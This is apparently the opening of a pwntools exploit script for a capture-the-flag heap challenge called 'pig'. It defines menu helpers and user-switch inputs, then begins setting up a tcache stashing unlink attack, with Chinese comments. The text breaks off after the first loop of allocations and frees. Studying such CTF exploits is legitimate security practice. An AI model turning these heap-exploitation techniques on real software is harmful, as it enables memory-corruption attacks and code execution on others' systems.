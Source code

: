 ```python
from pwn import *
from pwnlib.util.packing import p64
from pwnlib.util.packing import u64
context(os='linux', arch='amd64', log_level='debug')
file = "/home/zp9080/PWN/pig"
elf=ELF(file)
libc =elf.libc
io = process(file)
def dbg():
    gdb.attach(io,'b *$rebase(0xD80)')

rl = lambda    a=False        : io.recvline(a)
ru = lambda a,b=True    : io.recvuntil(a,b)
rn = lambda x            : io.recvn(x)
sn = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b            : io.sendafter(a,b)
sla = lambda a,b        : io.sendlineafter(a,b)
irt = lambda            : io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s            : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu64 = lambda data        : u64(data.ljust(8, b'\x00'))

def dbg():
    gdb.attach(io, 'b *$rebase(0x3761)')

def Menu(cmd):
    sla('Choice: ', str(cmd))

def Add(size, content):
    Menu(1)
    sla('size: ', str(size))
    sla('message: ', content)

def Show(idx):
    Menu(2)
    sla('index: ', str(idx))

def Edit(idx, content):
    Menu(3)
    sla('index: ', str(idx))
    sa('message: ', content)

def Del(idx):
    Menu(4)
    sla('index: ', str(idx))

def Change(user):
    Menu(5)
    if user == 1:
        sla('user:\n', 'A\x01\x95\xc9\x1c')
    elif user == 2:
        sla('user:\n', 'B\x01\x87\xc3\x19')
    elif user == 3:
        sla('user:\n', 'C\x01\xf7\x3c\x32')

#----- prepare tcache_stashing_unlink_attack 
#calloc申请5个0xa0堆块，并放入 tcache
Change(2)
for x in range(5):
    Add(0x90, 'B'*0x28) # B0~B4
    Del(x)    #B0~B4

```